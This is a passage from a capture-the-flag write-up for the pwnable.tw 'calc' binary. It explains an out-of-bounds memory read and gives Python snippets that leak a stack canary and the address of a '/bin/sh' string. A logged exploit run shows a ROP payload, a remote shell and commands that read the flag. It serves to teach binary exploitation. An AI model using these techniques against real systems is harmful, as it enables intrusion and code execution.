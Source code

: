 We can actually use this to leak any piece of memory in the vaddr space of the process because the binary uses the overwritten size field as an offset from the operand stack data addr to deference and print an integer (decompiled code below is again from Binary Ninja, with renames)

> `data_80bf804` is  "%d\n"

```c
08049406              void operand_stack_data
08049406              int32_t var_5b8_2 = *(&operand_stack_data + ((operand_stack_size - 1) << 2))
08049411              _IO_printf(&data_80bf804)
0804941e              _IO_fflush(_IO_stdout)
```

The way the binary works is also nicely setup such that if we run get it to evaluate `+x`, it prints the int32_t at `ebp-0x5a0+x*0x4`. 

Thus, for example, we can leak the canary of the stack frame of the `calc` function with the following script

```python
# Leak canary of the stack frame of `calc`
r.sendlineafter(b'===\n', b'+357')
canary = int(r.recvline().strip()) & 0xFFFFFFFF # Convert neg number to uint32_t
log.info(f"{hex(canary)=}")
```

Note that as shown in the sections above and the [solve script](./solve.py), we do not need to use this arb-read capability since we have arb-write capability to one contiguous memory segment per iteration of the while loop in `calc`, as described in [Actualizing the Array Out-of-bounds](#actualizing-the-array-out-of-bounds), which allows us to bypass overwriting the canary. 

### Leaking the Stack Address of our `/bin/sh\x00` string

The address of the filtered user input is pushed to the position -6*4 bytes from the operand stack, so we can leak it using the following code

```python
# Leak stack addr of where we inject the /bin/sh\x00 string
r.sendlineafter(b'===\n', b'-6')
binsh_addr = (int(r.recvline().strip()) & 0xFFFFFFFF) + 0x410 + 28 # Convert neg number to uint32_t and add fixed offset
log.info(f"{hex(binsh_addr)=}")
```

Adding 0x410 gets us to the retaddr of `calc`, and 28 is the length of our ROP chain before the `/bin/sh\x00` string. 

## Flag

```bash
[+] Opening connection to chall.pwnable.tw on port 10100: Done
[*] hex(binsh_addr)='0xff91a238'
[*] Loaded 89 cached gadgets for './calc'
b'\xd0\x01\x07\x08\x00\x00\x00\x00\x00\x00\x00\x008\xa2\x91\xffK\xc3\x05\x08\x0b\x00\x00\x00!\x9a\x04\x08/bin/sh\x00'
[*] payload=b'360+00+134676944*1+1*1-1+1*1-1+2143867164*2+134595403*1+11*1+134519329*1+1852400175*1+6845231*1+'
[*] Switching to interactive mode
expression error!
$ cd home/calc
$ ls
calc
flag
run.sh
$ cat flag
FLAG{C:\Windows\System32\calc.exe}
```